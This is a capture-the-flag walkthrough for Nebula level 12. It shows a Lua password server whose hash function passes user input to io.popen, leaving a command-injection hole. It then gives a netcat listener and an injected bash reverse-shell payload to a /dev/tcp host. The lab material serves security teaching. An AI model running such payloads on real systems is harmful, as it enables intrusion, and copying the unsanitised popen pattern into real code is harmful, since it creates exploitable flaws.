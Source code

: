 # level 12

```c
local socket = require("socket")
local server = assert(socket.bind("127.0.0.1", 50001))

function hash(password)
  prog = io.popen("echo "..password.." | sha1sum", "r")
  data = prog:read("*all")
  prog:close()

  data = string.sub(data, 1, 40)

  return data
end


while 1 do
  local client = server:accept()
  client:send("Password: ")
  client:settimeout(60)
  local line, err = client:receive()
  if not err then
      print("trying " .. line) -- log from where ;\
      local h = hash(line)

      if h ~= "4754a4f4bd5787accd33de887b9250a0691dd198" then
          client:send("Better luck next time\n");
      else
          client:send("Congrats, your token is 413**CARRIER LOST**\n")
      end

  end

  client:close()
end
```

This level is similar to the level07. We need to run netcat on our machine than
from Nebula we need to call it. The vulnerability is in the hash function,
"io.popen()", it takes the input of the user without parsing it and pass it to
the system.

We need to run on our machine:

```bash
netcat -nvlp 8000
```

Than on Nebula:

``` bash
telnet 127.0.0.1 50001
echo test; bash -i >& /dev/tcp/192.168.242.1/8000 0>&1; echo test
```

Now on your host you should have a shell and you should be logged as flag12,
try to ran getflag, to finish this level.
